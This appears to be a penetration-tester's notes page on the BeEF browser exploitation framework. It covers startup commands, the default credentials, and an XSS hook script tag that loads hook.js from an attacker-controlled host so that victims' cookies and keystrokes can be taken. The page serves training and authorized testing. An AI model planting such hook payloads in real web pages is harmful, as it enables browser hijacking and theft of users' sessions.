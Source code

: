 #### Official Documentation: [https://beefproject.com/](https://beefproject.com/)
#### Cheat Sheet: [[Kali Tools#Beef-xss|Beef-xss Commands]]
## Purpose
BeEF (Browser Exploitation Framework) is a penetration testing tool that hooks browsers using malicious JavaScript, allowing command-and-control of the victim’s browser.

## Scenarios
- CTF: Inject a BeEF hook script into a challenge page to gain a hooked browser session and extract cookies or keystrokes.  
- Real world: Demonstrate the impact of XSS by showing persistence, social engineering, or data exfiltration in a controlled engagement.

## All needed info to run
- Start BeEF: `beef-xss` (runs web UI on http://127.0.0.1:3000/ui/panel).  
- Default creds: `beef` / `beef`.  
- Hook script: `<script src="http://<attacker-ip>:3000/hook.js"></script>`. Place this in vulnerable page.  
- After a victim loads page, their browser appears in the BeEF panel.  
- Modules allow exploits like alert popups, stealing cookies, launching port scans.  
- Config file: `/etc/beef-xss/config.yaml` for passwords/ports.

## Example commands & outputs
```bash
# Start BeEF
$ beef-xss
# Output:
# [*] BeEF server started (http://127.0.0.1:3000/ui/panel)

# Insert hook in vulnerable page
<script src="http://192.168.56.101:3000/hook.js"></script>

# BeEF panel shows hooked browser:
# IP: 192.168.56.102 | Browser: Firefox | OS: Linux
# Modules list available exploitation options
```

!!! note "BeEF Basics"
	- Insert the `<script>` hook into an XSS-vulnerable page to hook a browser.
	- BeEF is noisy — alerts and modules are obvious to the victim.
	- Default creds are `beef` / `beef`; change in config for security.
	- Only use BeEF for demos or authorized pentests; hooking random browsers is illegal.


### [[Kali Tools#Beef-xss|Beef-xss Commands]]